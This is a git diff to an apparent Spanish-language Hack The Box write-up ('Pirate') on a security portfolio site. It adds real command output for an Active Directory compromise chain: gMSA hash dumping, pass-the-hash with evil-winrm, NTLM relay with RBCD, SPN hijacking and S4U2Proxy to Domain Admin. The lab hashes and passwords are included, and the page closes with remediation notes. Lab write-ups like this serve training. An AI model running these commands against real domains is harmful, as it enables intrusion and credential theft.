

Before and after one commit to FranciscoSimonWasel/security-portfolio, an MkDocs documentation site: the page built from docs/HTB/Pirate.md, in a window 1280 px wide and 1400 px high, scrolled down 216 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update Pirate report with real terminal outputs
Replaces reconstructed content with actual command outputs: full nmap
port table, CME --gmsa method with real hashes, WebClient detection
step, real ntlmrelayx/coercer/addspn.py/getST.py outputs and flags.

Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>

````diff
--- a/docs/HTB/Pirate.md
+++ b/docs/HTB/Pirate.md
@@ -12,13 +12,13 @@
 
 ## 1. Executive Summary
 
-Pirate es una máquina Windows Active Directory de dificultad Hard. El acceso inicial se logra abusando del grupo **Pre-Windows 2000 Compatible Access** para autenticar como `MS01$` con contraseña predeterminada y dumpear el hash NTLM de `gMSA_ADFS_prod$`, obteniendo shell WinRM en DC01. Con Ligolo-ng como pivote hacia la red interna, se combina NTLM relay con RBCD para comprometer WEB01 como Administrator (user flag). La escalación a Domain Admin encadena ForceChangePassword sobre `a.white_adm`, SPN hijacking contra DC01 usando WriteSPN del grupo IT, y S4U2Proxy con `-altservice` para obtener un ticket válido contra el DC.
+Pirate es una máquina Windows Active Directory de dificultad Hard. El acceso inicial se logra abusando del grupo **Pre-Windows 2000 Compatible Access** para autenticar como `MS01$` con contraseña predeterminada y dumpear el hash NTLM de `gMSA_ADFS_prod$` vía CrackMapExec con Kerberos ccache, obteniendo shell WinRM en DC01. Con Ligolo-ng como pivote hacia la red interna (192.168.100.0/24), se detecta WebClient habilitado en WEB01 y se combina NTLM relay con RBCD para comprometer WEB01 como Administrator (user flag). La escalación a Domain Admin encadena ForceChangePassword sobre `a.white_adm`, SPN hijacking contra DC01 usando WriteSPN del grupo IT mediante `addspn.py`, y S4U2Proxy con `-altservice` para obtener un ticket `host/DC01` válido contra el DC.
 
 **Cadena de ataque:**
 ```
-MS01$ (Pre-Win2000) → gMSA dump → evil-winrm DC01 → Ligolo pivot
-→ NTLM relay + RBCD → Admin WEB01 (user flag) → secretsdump
-→ ForceChangePassword → SPN hijack → S4U altservice → Domain Admin
+MS01$ (Pre-Win2000) → gMSA dump (CME --gmsa) → evil-winrm DC01 → Ligolo pivot
+→ WebClient detection → NTLM relay + RBCD → Admin WEB01 (user flag) → secretsdump
+→ ForceChangePassword → SPN hijack (addspn.py) → S4U altservice → Domain Admin
 ```
 
 ---
@@ -31,14 +31,24 @@ MS01$ (Pre-Win2000) → gMSA dump → evil-winrm DC01 → Ligolo pivot
 sudo nmap -Pn -sC -sV 10.129.244.95
 ```
 
-| Port     | Service    |
-|----------|------------|
-| 88/tcp   | Kerberos   |
-| 389/tcp  | LDAP       |
-| 445/tcp  | SMB        |
-| 636/tcp  | LDAPS      |
-| 3268/tcp | Global Catalog |
-| 5985/tcp | WinRM      |
+| Port      | Service            |
+|-----------|--------------------|
+| 53/tcp    | DNS                |
+| 80/tcp    | HTTP               |
+| 88/tcp    | Kerberos           |
+| 135/tcp   | RPC                |
+| 139/tcp   | NetBIOS            |
+| 389/tcp   | LDAP               |
+| 443/tcp   | HTTPS              |
+| 445/tcp   | SMB                |
+| 464/tcp   | Kerberos kpasswd   |
+| 593/tcp   | RPC over HTTP      |
+| 636/tcp   | LDAPS              |
+| 2179/tcp  | vmrdp              |
+| 3268/tcp  | Global Catalog     |
+| 3269/tcp  | Global Catalog SSL |
+| 5985/tcp  | WinRM              |
+| 9389/tcp  | AD Web Services    |
 
 Dominio: `pirate.htb` — DC01.pirate.htb
 
@@ -47,22 +57,32 @@ Dominio: `pirate.htb` — DC01.pirate.htb
 El grupo **Pre-Windows 2000 Compatible Access** contiene `MS01$` y `EXCH01$`, cuentas de máquina con contraseña predeterminada (nombre en minúsculas). Con el TGT de `MS01$` se puede leer `msDS-ManagedPassword` de cuentas gMSA.
 
 ```bash
-getTGT.py 'pirate.htb/MS01$:ms01' -dc-ip 10.129.244.95
+# Obtener TGT con contraseña predeterminada
+/tmp/imp/bin/getTGT.py 'pirate.htb/MS01$:ms01' -dc-ip 10.129.244.95
+# [*] Saving ticket in MS01$.ccache
 
-KRB5CCNAME=MS01$.ccache python3 gMSADumper.py \
-  -u 'MS01$' -k -d pirate.htb -l 10.129.244.95
+# Dumpear gMSA vía CME con Kerberos ccache
+KRB5CCNAME=MS01$.ccache crackmapexec ldap 10.129.244.95 -u 'MS01$' -k --use-kcache --gmsa
+```
+
+```
+Account: gMSA_ADCS_prod$  NTLM: 2b8849da91d5206b9d1d1dcb44467089
+Account: gMSA_ADFS_prod$  NTLM: 76754c94319e3a7dc07ba09aa79028ee
 ```
 
 ![gMSA dump](screenshots/pirate_gmsa_dump.png)
 
 Hash NTLM de `gMSA_ADFS_prod$` obtenido. Esta cuenta es miembro de **Remote Management Users** en DC01.
 
+!!! note "Autenticación de cuentas de máquina"
+    `MS01$` no puede autenticarse contra LDAP via contraseña (workstation trust account → `invalidCredentials`). Obligatorio usar TGT Kerberos → `--use-kcache`.
+
 ---
 
 ## 3. Acceso Inicial — evil-winrm como gMSA_ADFS_prod$
 
 ```bash
-evil-winrm -i 10.129.244.95 -u 'gMSA_ADFS_prod$' -H '<NTLM_HASH>'
+evil-winrm -i 10.129.244.95 -u 'gMSA_ADFS_prod$' -H '76754c94319e3a7dc07ba09aa79028ee'
 ```
 
 ![evil-winrm DC01](screenshots/pirate_evilwinrm.png)
@@ -97,18 +117,35 @@ sudo ip route add 192.168.100.0/24 dev ligolo
 
 ![Ligolo sesión activa](screenshots/pirate_ligolo_session.png)
 
-WEB01 (192.168.100.2) ahora accesible. Nmap confirma SMB **signing: enabled but not required** → vulnerable a relay.
+WEB01 (192.168.100.2) ahora accesible desde Kali.
 
 ---
 
 ## 5. NTLM Relay + RBCD → Admin en WEB01
 
+### WebClient Detection
+
+Antes de intentar relay, verificar que WebClient esté activo en WEB01 (requisito para coerción via WebDAV):
+
 ```bash
-# Terminal 1
-sudo ntlmrelayx.py -t ldaps://10.129.244.95 \
-  --delegate-access --remove-mic -smb2support
+crackmapexec smb 192.168.100.2 -u pentest -p 'p3nt3st2025!&' -M webdav
+```
 
-# Terminal 2
+```
+WEBDAV  192.168.100.2  WEB01  WebClient Service enabled on: 192.168.100.2
+```
+
+WebClient habilitado → coerción via `@port` notation disponible.
+
+### NTLM Relay Setup
+
+SMB signing en WEB01: `enabled but not required` → vulnerable a relay.
+
+```bash
+# Terminal 1 — relay a LDAPS del DC con delegación RBCD
+sudo ntlmrelayx.py -t ldaps://10.129.244.95 --delegate-access --remove-mic -smb2support
+
+# Terminal 2 — coerción de WEB01 hacia Kali
 coercer coerce -l 10.10.14.207 -t 192.168.100.2 \
   -d pirate.htb -u pentest -p 'p3nt3st2025!&' --always-continue
 ```
@@ -116,19 +153,24 @@ coercer coerce -l 10.10.14.207 -t 192.168.100.2 \
 ![RBCD exitoso](screenshots/pirate_rbcd_success.png)
 
 ```
-[*] Authenticating against ldaps://10.129.244.95 as PIRATE/WEB01$
+[*] Authenticating connection from PIRATE/WEB01$@10.129.244.95 against ldaps://10.129.244.95 SUCCEED
 [*] Adding new computer with username: WIHDYOOD$ and password: /p/u+d2(o13llbH result: OK
 [*] Delegation rights modified successfully!
 [*] WIHDYOOD$ can now impersonate users on WEB01$ via S4U2Proxy
 ```
 
+!!! warning "`--remove-mic` es obligatorio"
+    Sin esta flag: `The client requested signing. Relaying to LDAP will not work!`
+
+### Obtener Shell en WEB01
+
 ```bash
-# Sincronizar reloj
+# Sincronizar reloj (KRB_AP_ERR_SKEW)
 sudo ntpdate -u 10.129.244.95
-# 2026-05-27 04:18:06.312848 (-0600) +719.012374 +/- 0.036244
+# 2026-05-27 04:18:06.312848 (-0600) +719.012374 +/- 0.036244 10.129.244.95 s1 no-leap
 
 # Ticket S4U como Administrator
-getST.py -spn cifs/WEB01.pirate.htb -impersonate Administrator \
+/tmp/imp/bin/getST.py -spn cifs/WEB01.pirate.htb -impersonate Administrator \
   -dc-ip 10.129.244.95 'pirate.htb/WIHDYOOD$:/p/u+d2(o13llbH'
 # [*] Saving ticket in Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache
 
@@ -171,6 +213,11 @@ PIRATE\a.white:E2nvAOKSz5Xz2MJu
 ```bash
 bloodhound-python -u a.white -p 'E2nvAOKSz5Xz2MJu' \
   -d pirate.htb -ns 10.129.244.95 -c All --zip
+```
+
+```
+INFO: Found 5 computers, 10 users, 54 groups, 2 gpos, 1 ous, 20 containers
+INFO: Compressing output into 20260527042539_bloodhound.zip
 ```
 
 Hallazgos clave:
@@ -192,32 +239,40 @@ net rpc password a.white_adm 'Pirate123!' \
 
 ### SPN Hijacking
 
-`a.white_adm` delega a `http/WEB01.pirate.htb`. Al mover ese SPN de WEB01$ a DC01$ (usando WriteSPN del grupo IT), el S4U2Proxy apunta ahora al DC.
+`a.white_adm` delega a `http/WEB01.pirate.htb`. Al mover ese SPN de WEB01$ a DC01$ (usando el WriteSPN que IT tiene sobre DC01$), el S4U2Proxy apuntará al DC.
 
 ```bash
 # Quitar SPN de WEB01$
-python3 addspn.py -u 'pirate\a.white_adm' -p 'Pirate123!' \
+python3 /tmp/krbrelayx/addspn.py -u 'pirate\a.white_adm' -p 'Pirate123!' \
   -t 'WEB01$' -s 'HTTP/WEB01.pirate.htb' -r 10.129.244.95
 # [+] SPN Modified successfully
 
 # Inyectar SPN en DC01$
-python3 addspn.py -u 'pirate\a.white_adm' -p 'Pirate123!' \
+python3 /tmp/krbrelayx/addspn.py -u 'pirate\a.white_adm' -p 'Pirate123!' \
   -t 'DC01$' -s 'HTTP/WEB01.pirate.htb' 10.129.244.95
 # [+] SPN Modified successfully
 ```
 
+!!! note "Formato de usuario en addspn.py"
+    Usar `DOMAIN\username` con backslash. Con slash `/` falla: `Username must include a domain, use: DOMAIN\username`
+
 ### S4U2Proxy + altservice → Domain Admin
 
 ```bash
-getST.py -spn 'http/WEB01.pirate.htb' \
+/tmp/imp/bin/getST.py -spn 'http/WEB01.pirate.htb' \
   -altservice 'host/DC01.pirate.htb' \
   -impersonate Administrator \
   -dc-ip 10.129.244.95 \
   'pirate.htb/a.white_adm:Pirate123!'
-# [*] Changing service from http/WEB01.pirate.htb@PIRATE.HTB
-#                         to host/DC01.pirate.htb@PIRATE.HTB
-# [*] Saving ticket in Administrator@host_DC01.pirate.htb@PIRATE.HTB.ccache
+```
 
+```
+[*] Changing service from http/WEB01.pirate.htb@PIRATE.HTB
+                        to host/DC01.pirate.htb@PIRATE.HTB
+[*] Saving ticket in Administrator@host_DC01.pirate.htb@PIRATE.HTB.ccache
+```
+
+```bash
 KRB5CCNAME=Administrator@host_DC01.pirate.htb@PIRATE.HTB.ccache \
   wmiexec.py -k -no-pass pirate.htb/Administrator@DC01.pirate.htb
 ```
@@ -243,6 +298,7 @@ cb58d84bd134cb4a8496837cedcd152c
 | gMSA legible por cuentas de máquina | Auditar msDS-GroupMSAMembership | High |
 | SMB signing no requerido (WEB01) | Habilitar via GPO | Critical |
 | LDAP signing no requerido (DC01) | Requerir firma LDAP | Critical |
+| WebClient habilitado en servidores | Deshabilitar via GPO si no es necesario | High |
 | ForceChangePassword sobre cuenta admin | Auditar ACLs con BloodHound | High |
 | WriteSPN de grupo IT sobre DC01 | Restringir a Domain Admins | High |
 | trustedtoauth + constrained delegation | Usar gMSA para servicios | High |
@@ -252,10 +308,12 @@ cb58d84bd134cb4a8496837cedcd152c
 ## 10. Lessons Learned
 
 - **Pre-Win2000 Compatible Access** es el vector más fácil de pasar por alto — siempre enumerar sus miembros.
+- **gMSA dump via CME:** `MS01$` no puede autenticarse con contraseña a LDAP — sólo via TGT Kerberos. Usar `--use-kcache` con `KRB5CCNAME`.
 - **`--remove-mic`** en ntlmrelayx es obligatorio para relay a LDAPS.
-- **SPN hijacking:** WriteSPN en un objeto de computadora permite redirigir a quién apunta una delegación existente sin tocar `msDS-AllowedToDelegateTo`.
-- **`-altservice`** en getST.py relabelea el TGS resultante para usarlo con la herramienta correcta (wmiexec usa `host/`).
-- **`/etc/krb5.conf`** es obligatorio para GSSAPI en Linux — sin él evil-winrm falla silenciosamente.
+- **WebClient detection primero:** `crackmapexec smb -M webdav` — sin WebClient activo la coerción vía WebDAV no funciona.
+- **SPN hijacking:** WriteSPN en un objeto de computadora permite redirigir a quién apunta una delegación existente sin tocar `msDS-AllowedToDelegateTo`. Usar `addspn.py` de krbrelayx (bloodyAD y ldap3 directo fallan).
+- **`-altservice`** en getST.py relabelea el TGS resultante para usarlo con la herramienta correcta — wmiexec necesita `host/`, evil-winrm con GSSAPI falla si `/etc/krb5.conf` no existe o hay case mismatch en el SPN.
+- **ntpdate:** El skew era de +719 segundos. Sin sincronización, todo getST.py falla con `KRB_AP_ERR_SKEW`.
 
 ---
 
````
Also changed, not shown: other parts of docs/HTB/Pirate.md (+1 -1 lines).
